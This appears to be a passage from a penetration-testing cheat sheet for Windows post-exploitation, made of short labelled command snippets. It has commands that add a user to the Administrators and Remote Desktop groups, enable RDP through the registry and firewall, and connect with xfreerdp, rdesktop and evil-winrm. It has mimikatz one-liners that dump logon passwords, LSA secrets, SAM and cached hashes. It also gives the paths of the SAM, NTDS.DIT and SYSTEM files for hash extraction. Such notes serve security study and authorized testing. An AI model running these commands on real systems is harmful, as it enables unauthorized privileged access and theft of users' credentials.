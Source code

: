 -> Add to local administrators group  
```powershell
net localgroup Administrators <user> /add
```

-> Add to group of users who can access via RDP
```powershell
net localgroup "Remote Management Users" <user> /add
net localgroup "Remote Desktop Users" <user> /add
```

-> Enable RDP
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

-> move to another user  
```powershell
runas /user:<hostname>\<user> cmd
```

-> xfreerdp via RDP with sharing in \\\tsclient\share\
```bash
xfreerdp /u:user /p:pass /v:ip +clipboard /dynamic-resolution /cert:ignore /drive:/usr/share/windows-resources,share
```

-> rdesktop via RDP  
```bash
rdesktop -u <user> -p <password> -d <domain> -f <ip>
```

-> evil-winrm
```bash
evil-winrm -i <ip> -u <user> -p <password>
```

## Cached Credential Storage and Retrieval
-> Dump the credentials of all connected users, including cached hashes
```powershell
./mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```
-> Mix  
```powershell
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"
```

## Extracting hashes
### Intro
-> SAM - Security Account Manager (Store as user accounts)  %SystemRoot%/system32/config/sam  
-> NTDS.DIT (Windows Server / Active Directory - Store AD data including user accounts) %SystemRoot%/ntds/ntds.dit  
-> SYSTEM (System file to decrypt SAM/NTDS.DIT)  %SystemRoot%/system32/config/system  
-> Backup - Sistemas antigos como XP/2003: C:\Windows\repair\sam and C:\Windows\repair\system
